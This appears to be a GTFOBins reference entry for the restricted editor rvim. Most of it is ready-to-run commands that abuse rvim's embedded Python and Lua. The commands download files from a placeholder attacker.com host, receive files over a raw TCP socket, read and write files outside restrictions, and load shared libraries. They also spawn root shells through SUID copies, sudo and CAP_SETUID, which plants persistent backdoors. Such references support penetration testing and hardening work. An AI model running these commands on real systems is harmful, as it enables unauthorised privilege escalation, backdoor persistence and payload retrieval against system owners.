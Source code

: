 # GTFOBin: rvim

## File download

It can download remote files.

This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.

```
export URL=http://attacker.com/file_to_get
export LFILE=file_to_save
rvim -c ':py import vim,sys; from os import environ as e
if sys.version_info.major == 3: import urllib.request as r
else: import urllib as r
r.urlretrieve(e["URL"], e["LFILE"])
vim.command(":q!")'
```

Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file. This requires that `rvim` is compiled with Lua support and that `lua-socket` is installed.

```
export LPORT=12345
export LFILE=file_to_save
rvim -c ':lua local k=require("socket");
  local s=assert(k.bind("*",os.getenv("LPORT")));
  local c=s:accept();
  local d,x=c:receive("*a");
  c:close();
  local f=io.open(os.getenv("LFILE"), "wb");
  f:write(d);
  io.close(f);'
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
rvim file_to_write
iDATA
^[
w
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
rvim file_to_read
```

## Library load

It loads shared libraries that may be used to run code in the binary execution context.

This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.

```
rvim -c ':py import vim; from ctypes import cdll; cdll.LoadLibrary("lib.so"); vim.command(":q!")'
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.

```
sudo install -m =xs $(which rvim) .

./rvim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.

```
sudo rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

This requires that `rvim` is compiled with Lua support.

```
sudo rvim -c ':lua os.execute("reset; exec sh")'
```

## Capabilities

If the binary has the Linux `CAP_SETUID` capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.

This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.

```
cp $(which rvim) .
sudo setcap cap_setuid+ep rvim

./rvim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

This requires that `rvim` is compiled with Lua support.

```
sudo install -m =xs $(which rvim) .

./rvim -c ':lua os.execute("reset; exec sh")'
```